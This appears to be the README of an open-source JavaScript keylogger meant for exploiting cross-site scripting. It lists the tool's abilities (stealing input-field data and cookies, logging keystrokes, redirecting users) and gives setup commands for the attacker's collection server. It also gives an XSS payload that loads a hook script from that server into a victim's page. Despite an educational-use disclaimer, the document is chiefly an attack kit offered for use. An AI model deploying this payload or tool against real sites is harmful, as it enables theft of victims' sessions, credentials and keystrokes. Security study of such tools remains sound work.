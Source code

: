 # keylogger.js
A JS keylogger to exploit XSS

> This tool is only for educational purpose, do not use it against real environment



## Functionnalities

- Exfiltrate input field data
- Exfiltrate cookies
- Keylogging
- Display alert box
- Redirect user



## Install

You may need Apache + Mysq + PHP (+ php-curl)

```
# apt-get install apache2 mysql-server php php-mysql php-curl
```



Pull the keylogger source code:

```
git clone https://github.com/Sharpforce/keylogger.js.git
mv /var/www/html/keylogger/* ./
```



### Init the database

```
# mysql -u root
```

Creating a new user with specific rights:

```
MariaDB [(none)]> grant all on *.* to keylogger@localhost identified by 'keylogger';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> quit
Bye
```

Creating the database (will result in an empty page):

Visit the page http://ip/reset_database.php



### Exploit JS

The file hook.js is a hook. You need to replace the ip address in the first line with the keylogger.js server ip address:

```javascript
var address = "your server ip";
```



Insert the hook in your XSS payload:

```
?vulnerable_param=<script src="http://your_server_ip/hook.js"/>
```



Then, the keylogger server should list hooked browsers:

![image-20200214110103913](img/image-20200214110103913.png)















